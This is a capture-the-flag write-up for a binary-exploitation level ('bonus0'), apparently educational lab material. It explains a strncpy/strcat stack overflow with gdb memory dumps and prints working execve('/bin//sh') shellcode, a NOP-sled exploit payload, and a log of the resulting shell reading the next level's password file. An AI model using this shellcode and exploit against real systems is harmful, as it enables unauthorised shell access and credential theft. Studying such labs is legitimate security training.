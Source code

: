 ## Don't forget, sentences end with a point and strings with a '\0' (bonus0)

With this [binary](source.c) we're back to good old C and classic buffer
overflows. There's three functions including _main_. The _main_ has a local
buffer of 54 bytes, and calls the function _pp_ on it. There we have two other
buffers each 20 bytes long. _pp_ will call the third function _p_ on both to
fill them with some user input. After that the two buffers are copied and
insecurely concatenated in the buffer provided by the _main_ function.

After some gdb analysis, we can see the state of the stack from _p_:

```shell
# print part of the stack from the end p's buffer
(gdb) x/56wx 0xbffffa88

0xbffffa88:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffa98:     0x61616161      0x00616161      0x00000001      0x00000000
0xbffffaa8:     0xbffffb08     [0x0804854c]     0xbffffaec      0x080486a0
0xbffffab8:     0x00000000      0x00000001      0x00000000      0x00000000
0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffad8:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffae8:     0x61616161      0x62626262      0x62626262      0x62626262
0xbffffaf8:     0x62626262      0x00626262      0xb7fd0ff4      0x00000000
0xbffffb08:     0xbffffb58     [0x080485b9]     0xbffffb26      0x080498d8
0xbffffb18:     0x00000001      0x0804835d      0xb7fd13e4      0x00080000
0xbffffb28:     0x080498d8      0x080485f1      0xffffffff      0xb7e5edc6
0xbffffb38:     0xb7fd0ff4      0xb7e5ee55      0xb7fed280      0x00000000
0xbffffb48:     0x080485d9      0xb7fd0ff4      0x080485d0      0x00000000
0xbffffb58:     0x00000000     [n0xb7e454d3]    0x00000001      0xbffffbf4
```

> The values between brackets are the return addresses of every function in the
> binary.

* 0xbffffa88 -> 0xbffffaa0 (24 bytes): end of _p_'s big read buffer (all "0x61")
* 0xbffffaa8 (4 bytes): 0xbffffb08 _pp_'s ebp
* 0xbffffaac (4 bytes): 0x0804854c _p_'s return address <_pp_+46>
* 0xbffffad8 -> 0xbffffaec (20 bytes): _pp_'s first buffer (all "0x61")
* 0xbffffaec -> 0xbffffb00 (20 bytes): _pp_'s second buffer (all "0x62")
* 0xbffffb08 (4 bytes): 0xbffffb58 _main_'s ebp
* 0xbffffb0c (4 bytes): 0x080485b9 _pp_'s return address <_main_+21>
* 0xbffffb26 -> 0xbffffb58 (50 bytes): _main_'s buffer (random data)
* 0xbffffb58 (4 bytes): 0x00000000 *\_\_libc\_start\_main*'s ebp ? (look that up)
* 0xbffffb5c (4 bytes): 0xb7e454d3 _main_'s return address <*\_\_libc\_start\_main*+243>

> To get this result we passed as a first input the result of this command:
> `python -c 'print "a" * 4095'`, and this one for the second input:
> `python -c 'print "b" * 19'` so that they would not overflow their buffers.

_p_'s address cannot be overwritten since the call to `read` is safe and that
`strncpy` targets _pp_'s buffers. But this where the "unsafety" starts. This
`strncpy` call is dangerous because even though it has an upper bound equal to
the length of the buffers it writes to (20), they will not be null-terminated
by the function if the input data is at least 20 bytes long. Also, since the
buffers are next to each other in memory this means that they will be treated as
one big string even if there are null bytes after the second buffer.

This problem is not just theoretical because these buffers ares used with an
`strcpy` and an `strcat` call. Basically the first buffer is going to be copied
into _main_'s buffer. Then the null byte is going to be replaced with a space,
because yolo, and the second buffer is going to be concatenated to it.

In the best case scenario, if the two input buffers are filled with precisely 19
bytes of data and one null-byte _main_'s buffer should contain 39 bytes of data
and one null-byte:

```shell
# run the binary
./bonus0
 - 
# first input (19 bytes)
aaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes too)
bbbbbbbbbbbbbbbbbbb
# nice output
aaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbb
```

Now just add one byte to the first input:

```shell
# run the binary
./bonus0
 - 
# first input (20 bytes)
aaaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes)
bbbbbbbbbbbbbbbbbbb
# nice-ish output
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbb bbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
```

What just happened ? The 20 bytes in the first input made it so `strncpy` could
not add a terminating null byte. After the second input is given an `strcpy`
call supposedly copies the 20 bytes of data from the first buffer to _main_'s
buffer. But since it _directly_ followed by the second buffer in memory the call
really copies 39 bytes of data to the destination buffer. And it does not stop
there. Then it replaces the null byte by a space and appends the 19 bytes again
and adds an other null byte. In total this fills the 50 byte buffer with 60
bytes of data (including the null byte).

Basically this means that we can overwrite _main_'s return address. It fills it
with garbage values above, hence the sefault, but we can do something useful
with this. So we have to write 54 bytes of data before overwriting _main_'s
return address.

We could have done a ret2libc (see [level2](../level2)), but this is not
possible because we only overflow the buffer by 10 bytes and ret2libc requires
at least writing 12 bytes to be useful (to be able to pass arguments to the
called function). So what we need is a [shellcode](../shellcode) and as small as
possible. Like this [one](shellstorm_shellcode.asm) found on
[shellstorm](http://shell-storm.org/shellcode/). Although it did not work in our
case. This is because the registers and stack were already set to random values,
not to 0 as if the program just started on the shellcode. So after some
tinkering here is the final shellcode:

```nasm
section .text
global _start
_start:
xor     edx, edx    ; set edx to 0
push    edx         ; push it to the stack to end the command string
push    0x68732f2f  ; "//sh" end of the command string
push    0x6e69622f  ; "/bin" start of the command string
mov     ebx, esp    ; set ebx to the start of the command string
push    edx         ; push a NULL
push    ebx         ; push the command string's address
mov     ecx, esp    ; set ecx as a pointer to the command string's address (argv)
push    0xb         ; push 11 (execve interrupt number)
pop     eax         ; set eax to 11
int     0x80        ; call execve
```

This will execute execve with "/bin//sh" as parameter and open us a shell. Now
the exploit:

```shell
python -c 'print "\x90" * 1000 + "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x6a\x0b\x58\xcd\x80"'
python -c 'print "a" * 14 + "\xbf\xff\xee\x60"[::-1] * 1 + "a" * 1'
cat
```

The shellcode is at the end of the first input. It will be stored inside _p_'s
read buffer. We put a lot of noops operation before it because we do not know
the precise location of the buffer, so we will set _main_'s return address to
the address we got from gdb plus 128 bytes or so. This works because the layout
differences are not really big between the gdb run process and the normal
version. The read buffer is large enough for that so let's use it. So when the
binary receives this input _main_'s return address is replace with 0xbfffee60,
which is *somewhere* inside _p_'s buffer, the eip skips every noop instructions
to finally encounter and execute the shellcode.

```shell
# run the exploit script above
./exploit.bash | ./bonus0
 - 
 - 
aaaaaaaaaaaaaa`a aaaaaaaaaaaaaa`a
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
